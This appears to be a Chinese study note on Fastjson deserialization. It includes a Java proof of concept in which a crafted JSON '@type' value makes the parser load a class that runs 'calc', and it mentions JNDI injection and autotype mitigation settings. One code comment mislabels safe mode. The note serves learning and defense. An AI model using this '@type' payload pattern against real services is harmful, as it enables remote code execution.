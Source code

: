 
调用执行命令的文件

    package com.Pengj;
    
    import java.io.IOException;
    
    public class Run {
        public Run() throws IOException {
            Runtime.getRuntime().exec("calc");
        }
    }
    

json数据序列化和反序列化

    package com.Pengj;
    
    
    import com.alibaba.fastjson.JSON;
    import com.alibaba.fastjson.JSONObject;
    import com.alibaba.fastjson.serializer.SerializerFeature;
    
    //使用fastjson去处理User类数据
    public class FastjsonTest {
        public static void main(String[] args) {
            //将User进行实例化
            User u = new User();
            u.setAge(20);
            u.setName("Pengj");
            //json对象转换json数据							转换结果：{"age":20,"name":"Pengj"}
            String jsonString = JSONObject.toJSONString(u);
            System.out.println("这就是json格式："+jsonString);
    
           //引入autotype功能后的对象转为json数据			转换结果：{"@type":"com.Pengj.User","age":20,"name":"Pengj"}	
            String jsonString1 = JSONObject.toJSONString(u, SerializerFeature.WriteClassName);
            System.out.println(jsonString1);
            
    
    
           
            //下面JSON -> 对象
            String test = "{\"@type\":\"com.Pengj.Run\",\"age\":20,\"name\":\"Pengj\"}";//修改包含类名信息后的json数据
            //将json数据进行反序列化
            JSONObject jsonObject = JSON.parseObject(test);
            System.out.println(jsonObject);
    
        }
    
    
    }
    

在上述代码段中，使用JSONObject类中的toJSONString方法，将对象转换为json数据，并启用SerializerFeature.WriteClassName特性，将带有@type标记的类名信息也输出出来，完成对象转换为json数据的过程。  
在将json数据使用JSON.parseObject方法反序列化为对象的时候，如果将类名信息修改为其他类，那么在反序列化过程中程序会尝试将@type标记的类信息反序列化到对象，从而加载@type所标记的类，然而，@type的类有可能被恶意构造，只需要合理构造一个JSON，使用@type指定一个想要的攻击类库就可以实现攻击。例如将@type指定为包含lookup()方法的库中就可以实现JNDI注入。

    ParserConfig.getGlobalInstance().setAutoTypeSupport(false);		//禁用autotype
    ParserConfig.getGlobalInstance().setSafeMode(true);		//启用autotype
    

以上内容仅作学习记录，如有错误或瑕疵，欢迎批评指正，感谢阅读。